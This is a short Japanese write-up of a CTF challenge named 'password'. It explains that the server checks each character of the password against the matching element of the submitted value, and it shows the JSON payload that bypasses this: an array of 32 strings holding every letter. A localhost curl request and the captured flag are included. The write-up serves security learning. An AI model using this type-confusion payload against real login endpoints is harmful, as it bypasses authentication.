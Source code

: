## password
### 解法
- プログラムを確認すると以下のことがわかる
    - パスワード文字数は32文字
    - パスワードはjson形式 ({"pass": "password"}) で渡されている
    - パスワードを配列として、[i]番目のオブジェクト文字列の中に正しいパスワードのi番目の文字列が含まれていれば一致しているとみなしている
- よって、"password"の部分を、パスワード文字列としてありうるすべての文字で構成された文字列 * パスワード文字数32個の配列として渡してjsonインジェクションを起こすとフラグが得られる。
- windows上でcurlでたたいたらなぜかjsonとしてうまく読み込んでくれなかった。
    ```
    curl -v -X POST --data '\{"pass":"hogehoge"\}' -H "Content-Type: application/json" http://127.0.0.1:8080/flag
    ```
    - 文字コードの問題？
- ので、Talend API Testerを使った

### json
```json
{
  "pass": [
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
    "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
  ]
}
```

### flag
```
nitic_ctf{s0_sh0u1d_va11dat3_j50n_sch3m3}
```
